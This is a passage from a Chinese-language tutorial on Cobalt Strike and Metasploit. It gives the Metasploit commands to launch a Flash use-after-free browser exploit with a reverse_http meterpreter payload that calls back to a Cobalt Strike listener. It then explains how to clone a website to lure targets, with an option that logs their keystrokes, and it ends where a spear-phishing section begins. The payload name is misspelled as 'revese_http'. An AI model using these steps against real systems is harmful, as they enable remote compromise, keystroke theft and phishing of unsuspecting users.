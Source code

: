 3、之后在MSF中设置Payload的LHOST、LPORT为CS中Beacon的监听器IP及端口。

4、然后设置 `DisablePayloadHandler` 为 True，此选项会让 MSF 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉MSF说我们已经建立了监听器，不必再新建监听器了。

5、再设置 `PrependMigrate` 为 True，此选项让 MSF 前置 shellcode 在另一个进程中运行 payload stager。如果被利用的应用程序崩溃或被用户关闭，这会帮助 Beacon 会话存活。

6、最后运行`exploit -j`，-j 是指作为job开始运行，即在后台运行。

**操作**

在CS中新建一个HTTP Beacon，创建过程不再赘述。

1、在MSF中选择攻击模块，根据教程这里选择的`adobe_flash_hacking_team_uaf`模块，不过个人感觉现在这个模块已经不太能被利用成功了。

```
use exploit/multi/browser/adobe_flash_hacking_team_uaf
```

2、接着配置payload，这里选择revese_http payload

```
set payload windows/meterpreter/revese_http
set LHOST cs_server_ip
set LPORT 80
```

3、之后，配置`DisablePayloadHandler`、`PrependMigrate`为 True

```
set DisablePayloadHandler True
set PrependMigrate True
```

4、最后，开始攻击。

```
exploit -j
```

![](https://teamssix.oss-cn-hangzhou.aliyuncs.com/cs9-1.png)

### 伪装—克隆网站

在向目标发送漏洞程序之前，我们将自己进行伪装一下，这样可以更好的保护自己，同时提高成功率。CS上有个克隆网站的功能，能够较好的帮助到我们。

首先，来到`Attacks --> Web Drive-by --> Clone Site`下，打开克隆网站的功能，之后写入待克隆网站的URL，在Attack中写入MSF中生成的URL。

其中`Log keystrokes on cloned site`选项如果勾选则可以获取目标的键盘记录，记录结果在Web Log中能够查看。

![](https://teamssix.oss-cn-hangzhou.aliyuncs.com/cs9-2.png)

之后，浏览器打开克隆站点地址，如果目标存在漏洞，就可以被利用了，同时在CS中也会观察到主机上线。

## 5、鱼叉式网络钓鱼

用CS进行钓鱼需要四个步骤：

1、创建一个目标清单
